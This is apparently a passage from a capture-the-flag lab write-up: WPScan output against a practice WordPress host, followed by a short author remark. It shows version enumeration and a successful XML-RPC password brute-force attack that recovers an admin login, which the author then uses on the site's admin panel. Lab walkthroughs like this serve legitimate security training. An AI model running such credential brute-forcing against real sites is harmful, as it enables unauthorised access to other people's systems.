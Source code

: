 [+] The external WP-Cron seems to be enabled: http://10.10.140.182/blog/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 5.4.2 identified (Insecure, released on 2020-06-10).
 | Found By: Emoji Settings (Passive Detection)
 |  - http://10.10.140.182/blog/, Match: 'wp-includes\/js\/wp-emoji-release.min.js?ver=5.4.2'
 | Confirmed By: Meta Generator (Passive Detection)
 |  - http://10.10.140.182/blog/, Match: 'WordPress 5.4.2'

[i] The main theme could not be detected.

[+] Enumerating All Plugins (via Passive Methods)

[i] No plugins Found.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:06 <=============================================================================> (137 / 137) 100.00% Time: 00:00:06

[i] No Config Backups Found.

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - admin / my2boys                                                                                                                                 
Trying admin / kambal Time: 00:01:01 <                                                                             > (3900 / 14348292)  0.02%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: admin, Password: my2boys

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue May  6 21:12:08 2025
[+] Requests Done: 4067
[+] Cached Requests: 4
[+] Data Sent: 2.056 MB
[+] Data Received: 2.491 MB
[+] Memory used: 265.516 MB
[+] Elapsed time: 00:01:17

Current administration email: **admin@internal.thm**

i hit this email is correct when asked to verify email http://internal.thm/blog/wp-admin/index.php btw the credentials admin my2boys worked
